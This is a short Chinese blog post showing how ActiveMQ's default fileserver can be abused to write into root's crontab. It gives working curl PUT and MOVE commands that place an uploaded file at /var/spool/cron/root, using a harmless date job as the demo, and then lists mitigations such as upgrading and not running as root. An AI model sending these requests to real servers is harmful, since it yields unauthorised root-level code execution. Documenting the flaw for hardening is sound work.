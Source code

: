 ```yaml
---
layout: post
title: "利用activemq的fileserver漏洞修改系统cron"
date: 2018-03-06
comments: false
categories: 运维
---
```


当服务器安装activemq后，默认开启fileserver用于文件上传，我们可以通过下面指令达到修改系统cron的目的

```bash
# 本地1.txt内容
* * * * * date >> /tmp/1.out

# 将本地1.txt上传至服务器
curl -X put http://server-ip:8161/fileserver/1.txt --upload-file 1.txt

# 将上传后的1.txt移动到/var/spool/cron/root
curl -X MOVE http://server-ip:8161/fileserver/1.txt -H 'Destination: file:///var/spool/cron/root'

# 检查cron服务
crontab -l
```
会发现`* * * * * date >> /tmp/1.out`，即每分钟执行date并输出到/tmp/1.out下

### 漏洞关闭方法

* 升级至5.14.x

### 思索

* 软件尽量不要直接用root运行
* 服务端口能不暴露尽量不暴露，请用127.0.0.1:xxxx
* 注意注意一些软件的漏洞报告，如redis、activemq

